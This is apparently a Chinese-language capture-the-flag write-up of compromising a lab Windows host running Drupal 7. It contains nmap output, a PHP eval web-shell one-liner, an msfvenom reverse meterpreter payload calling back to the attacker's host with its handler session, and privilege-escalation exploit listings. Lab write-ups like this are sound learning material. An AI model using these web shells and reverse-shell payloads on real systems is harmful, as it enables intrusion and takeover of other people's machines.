


# README

## nmap

```shell
sudo nmap -T4 -A -v 10.10.10.9
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-12 17:25 CST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 17:25
Completed NSE at 17:25, 0.00s elapsed
Initiating NSE at 17:25
Completed NSE at 17:25, 0.00s elapsed
Initiating NSE at 17:25
Completed NSE at 17:25, 0.00s elapsed
Initiating Ping Scan at 17:25
Scanning 10.10.10.9 [4 ports]
Completed Ping Scan at 17:25, 0.34s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:25
Completed Parallel DNS resolution of 1 host. at 17:25, 0.03s elapsed
Initiating SYN Stealth Scan at 17:25
Scanning 10.10.10.9 [1000 ports]
Discovered open port 135/tcp on 10.10.10.9
Discovered open port 80/tcp on 10.10.10.9
Discovered open port 49154/tcp on 10.10.10.9
Completed SYN Stealth Scan at 17:26, 22.94s elapsed (1000 total ports)
Initiating Service scan at 17:26
Scanning 3 services on 10.10.10.9
Completed Service scan at 17:27, 57.95s elapsed (3 services on 1 host)
Initiating OS detection (try #1) against 10.10.10.9
Retrying OS detection (try #2) against 10.10.10.9
Initiating Traceroute at 17:27
Completed Traceroute at 17:27, 0.33s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 17:27
Completed Parallel DNS resolution of 2 hosts. at 17:27, 5.51s elapsed
NSE: Script scanning 10.10.10.9.
Initiating NSE at 17:27
Completed NSE at 17:27, 6.74s elapsed
Initiating NSE at 17:27
Completed NSE at 17:27, 3.39s elapsed
Initiating NSE at 17:27
Completed NSE at 17:27, 0.00s elapsed
Nmap scan report for 10.10.10.9
Host is up (0.27s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-title: Welcome to Bastard | Bastard
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8.1 (90%), Microsoft Windows 7 (90%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.002 days (since Tue Sep 12 17:24:25 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=251 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   298.96 ms 10.10.14.1
2   302.09 ms 10.10.10.9

NSE: Script Post-scanning.
Initiating NSE at 17:27
Completed NSE at 17:27, 0.00s elapsed
Initiating NSE at 17:27
Completed NSE at 17:27, 0.00s elapsed
Initiating NSE at 17:27
Completed NSE at 17:27, 0.00s elapsed
Read data files from: /opt/homebrew/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.21 seconds
           Raw packets sent: 2094 (95.820KB) | Rcvd: 47 (2.796KB)

```

## 80端口rce

80端口的Drupal存在rce漏洞，msf模块不知道为什么拿不到shell，从网上找个exp打，写个文件蚁剑连上去方便交互：：

```shell
$ echo "<?php eval($_POST[0]);?>" > feng.php

$
```




## 提权

获取systeminfo信息然后用windows-exploit-suggester.py，把查找到的打一遍发现都打不通：

```shell
python2 windows-exploit-suggester.py --database 2023-09-12-mssb.xls --systeminfo systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*]
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*]
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done

```

拿cs上线后挨个提权脚本试，试到MS-15-051的时候提成功了，非常奇怪。



说明`windows-exploit-suggester.py`不一定可信，还是得尝试msf上线一下：

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=39502 -f exe > '/Users/feng/many-ctf/Ma!/msfshell.exe'
```

```shell
set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.14
lhost => 10.10.14.14
msf6 exploit(multi/handler) > set lport 39502
lport => 39502
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.14:39502
[*] Sending stage (175686 bytes) to 10.10.10.9
[*] Meterpreter session 1 opened (10.10.14.14:39502 -> 10.10.10.9:52772) at 2023-09-12 18:12:37 +0800

meterpreter >
```

用提权建议脚本：

```shell

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 3   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 4   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 9   exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
 11  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```

ms15-051确实在里面，说明提权建议脚本可能有问题，建议多用几个。